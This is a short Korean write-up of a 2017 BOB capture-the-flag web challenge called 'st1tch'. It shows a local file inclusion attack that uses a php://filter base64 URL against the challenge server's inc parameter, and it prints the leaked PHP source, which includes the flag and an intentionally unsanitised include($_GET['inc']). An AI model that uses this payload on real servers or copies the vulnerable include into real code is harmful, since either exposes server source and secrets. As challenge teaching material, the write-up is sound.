

# [2017_BOB] \[WEB] st1tch

### Problem

서버 - http://220.230.122.140/bob/



접속해보면 위와 같이 뜬다. ?inc=index.php 를 입력해봤지만 ob_start() 함수 때문에 실패했다.


### Solution

`http://220.230.122.140/bob/?inc=php://filter/convert.base64-encode/resource=index.php` 접속

```php
<table>
<th>
<td>
<?php
	include 'st1tch.php';
?>
<td>
<th>
<table>
<title> st1tch... </title>
<div style='border:2px solid; width:50%'>
<div style='border:1px solid; width:100%;'>
<?php
	echo "<font size =4><b>If you can see my code, <br>I'll offer flag to you.</b></font><br>";
?>
</div>
<br>
</div>
```

`http://220.230.122.140/bob/?inc=php://filter/convert.base64-encode/resource=st1tch.php` 접속

```php
<?php
$flag='BOB6{st1tch_LFI_web_challenge!}';

if(!@include($_GET['inc']))
	echo "READ MY FILE!!!!</br>";
ob_start();
highlight_file(__FILE__);
echo str_replace($flag, '****************', ob_get_clean());
?>
```

